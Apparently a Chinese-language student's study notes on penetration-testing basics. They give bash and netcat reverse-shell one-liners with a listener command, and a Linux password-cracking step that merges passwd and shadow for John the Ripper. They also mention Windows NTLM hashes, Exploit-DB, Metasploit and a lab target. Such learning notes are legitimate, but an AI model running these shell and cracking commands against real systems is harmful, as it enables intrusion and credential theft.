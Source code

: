#### *Reverse shell*
受害者的機器自行連回攻擊者的機器(出來比進去簡單)

**Bash**
- Victim: bash -i >& /dev/tcp/ip/port 0>&1
- Attacker:nc -nvlp port

**Netcat**
- Victim:nc ip port -e /bin/bash
- Attacker:nc -nvlp port

![](https://i.imgur.com/WHPfdBH.png)

**john the ripper**暴力破解
可以參考Linux 的 /etc/shadow 檔案結構
https://blog.gtwang.org/linux/linux-etc-shadow-file-format/

xdg-open >> 呈現file讓你可以直接開啟文件

<br>

**破解liunx root密碼**
將passwd和shadow合併 寫入crack中
```
unshadow passwd shadow > crack
```
![](https://i.imgur.com/vRRh7bK.png)
使用john來破解密碼
![](https://i.imgur.com/JiAkG0d.png)

**破解Window root密碼**
SAM file
NTLM hash
Net-NTLM 網路上做金鑰交換的地方

**CVE Details**
可以去追蹤
不會有要怎麼利用該漏洞的程式碼
**Expoitdb**
可以追蹤漏洞
remote code execution(RCE)遠程代碼執行漏洞

**Metasploit**
https://ithelp.ithome.com.tw/articles/10224527


```
msfconsole
```
![](https://i.imgur.com/fGYsqLW.png)

![](https://i.imgur.com/nUGB4m6.png)


## 靶機測試(192.168.5.107)
### NET config
網路要使用橋接介面卡
